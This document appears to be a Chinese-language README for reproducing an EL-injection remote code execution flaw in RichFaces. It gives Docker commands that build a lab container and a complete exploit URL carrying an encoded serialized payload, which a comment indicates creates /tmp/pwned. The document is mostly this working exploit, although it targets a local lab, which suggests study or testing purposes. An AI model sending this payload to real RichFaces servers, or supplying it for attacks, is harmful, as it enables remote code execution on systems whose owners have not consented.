


环境搭建
```shell
docker build -t richfaces-el-injection .
docker run -d -p 9090:8080 richfaces-el-injection
```




漏洞复现

```shell
# touch /tmp/pwned
http://127.0.0.1:9090/richfaces/a4j/s/3_3_0.GAorg.ajax4jsf.resource.UserResource/n/s/-1487394660/DATA/eAHNVU1rE0EYnkar!fCj2mKtIsRVbCoy20o91BooVFEhVWjaqu1BJps3ycT96sxsslgqioiggkjxpiJ4bU!-AT36ifQX6EFERCiCV3FmNk1sUA89ZU8zu88-7zPP8-67i99RM2fosMfymBRJOFjkOcyAewGzAE9yYOOVzcFJRk8SQZC6Oo99i6GNKbTVYkAEjHquAFcItDNVJCVi2sTNm-czRbDEcApthtCnknMWXUNNKdTieFmao5Ct7JtLxA5Ab0JfajmkKEKcIxZwbHmO77mSG6eFLHTGs7PA0qQE7NLr58mFR-!GYiiWQq2WTTg!RxxYqyEtGHXzUkMbl-9kNYdAuyKV1DPTwCix6VWSsWE49FX5XlkS88DVAmwQHIONJ0h-DETBy54KfXkSTj1X-4BQ0xaEQoZ6ItESWo-bTXW3T9!!tBLTuM4qrsb07Nad9I!p5RMKoRQMqTAYtQqRBQHFxPdtahEhy0Y-1Be5wCQEGE48vHF8cfyz9qQrQzhEIdRqCbRHHz40wTanlPG1Z9KmTT5hOsi9NVR9reFQZdUihcaV0GLG49qjOrazjm8PLc23XVwQvZFHu6tnr4OW267PfHzx64EyQHG3lp-imwfmGMwGwAXOgxhV8Sb6qsuUR2QfyBu2XEQPDcWOVefh8cAV1AFD4yP5CUOy1O5Tt-RdgYQb2HYfhhCshCG8wCrETeH4pl92IWv0zf8nVd8PpQH71xhQb5RyILPS!bP95Y4x5YC2rXy7MY6GAoY6Z3TKkWmVT2VpeerL131zp3Uzyh6PCdSlnaUePh8IPxASCMQRqKNmeNRl0pPyMvpgVlvXdCBLSfSWCSGRfgA3iz7k03qNw4Jw7PhI!5H--MjAwNGBwaSxZqAkG6AJjFAPrg16NP1jNtT185-jQYXeoRm2lx-juw1woDhE4xht0wEGgtpYDnZQ8b1Hb9cXX0GO18u5wE0aFfbGik6l0FNJ4Qm61wgprP4F!xbDG!RqfTEUAy6Sxip1Y2QgUIvqjgk5yn8DoAf2GA__.jsf
```



